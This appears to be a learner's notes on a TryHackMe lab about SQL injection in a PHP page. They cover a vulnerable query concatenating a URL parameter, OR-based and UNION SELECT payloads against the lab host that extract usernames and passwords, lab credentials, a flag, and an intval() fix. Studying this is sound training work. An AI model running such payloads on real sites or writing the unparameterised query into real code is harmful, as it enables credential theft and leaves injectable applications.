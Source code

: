 ```php
$server="db";
$user="logistics_user";
$pwd="somePass123";
$schema="logistics";

$db=mysqli_connect($server,$user,$pwd,$schema);
```

once connected
```php
$query="select * from users where id=1";
$elves_rs=mysqli_query($db,$query);
```

Websites
`.com/webapp/elf.php?id=2`

```php
$query="select * from users where id=".$_GET['id'];
$elves_rs=mysqli_query($db,$query);
```

SQLi
```sql
select * from users where id=-1 OR id = 4
```
` http://10-10-7-237.p.thmlabs.com/webapp/elf.php?id=2 OR id=4`
returns Elf Recon McRed profile

` http://10-10-7-237.p.thmlabs.com/webapp/elf.php?id=-1 union all select null,null,username,password,null,null,null from users `
returns `H0hoh02022` full stack Elf which has all users


`http://10-10-7-237.p.thmlabs.com`
` coder : coder `


Fixing SQLi -- data type validation

elf.php
```php
# lines 4,5
$query="select * from users where id=".$_GET['id'];
$elves_rs=mysqli_query($db,$query);

# avoid attacks: input as integer
intval("123") = 123
intval("hacker") = 0

# -- safer code
$query="select * from users where id=".intval( $_GET['id'] );
$elves_rs=mysqli_query($db,$query);

```

Flag1 ` THM{McCode, Elf McCode} `
